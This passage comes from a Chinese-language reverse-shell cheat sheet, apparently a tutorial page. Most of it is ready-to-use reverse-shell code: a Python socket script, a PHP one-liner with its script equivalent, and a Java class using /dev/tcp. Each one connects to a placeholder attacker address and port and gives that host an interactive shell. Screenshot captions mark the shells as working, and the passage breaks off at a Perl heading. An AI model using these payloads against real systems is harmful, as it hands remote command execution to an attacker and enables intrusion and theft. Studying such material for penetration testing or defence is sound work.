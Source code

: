 ``` python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("[LHostIP]",[Port]))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![python 反弹成功](https://pic.imgdb.cn/item/647c13a3f024cca173274241.png)

## php 反弹一句话

``` bash
# 靶机
php -r '$sock=fsockopen("[LHostIP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

实际上这段代码相当于执行了一个 php 脚本：

``` php
<?php
$sock=fsockopen("[LHostIP]",[Port]);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

![php 反弹一句话](https://pic.imgdb.cn/item/647c13a3f024cca1732742a1.png)

## JAVA 反弹

``` java
public class Revs {
/**
* @param args
* @throws Exception 
*/
public static void main(String[] args) throws Exception {
  // TODO Auto-generated method stub
  Runtime r = Runtime.getRuntime();
  String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/[LhostIP]/[Port];cat <&5 | while read line; do $line 2>&5 >&5; done"};
  Process p = r.exec(cmd);
  p.waitFor();
}
}
```

## Perl 反弹一句话
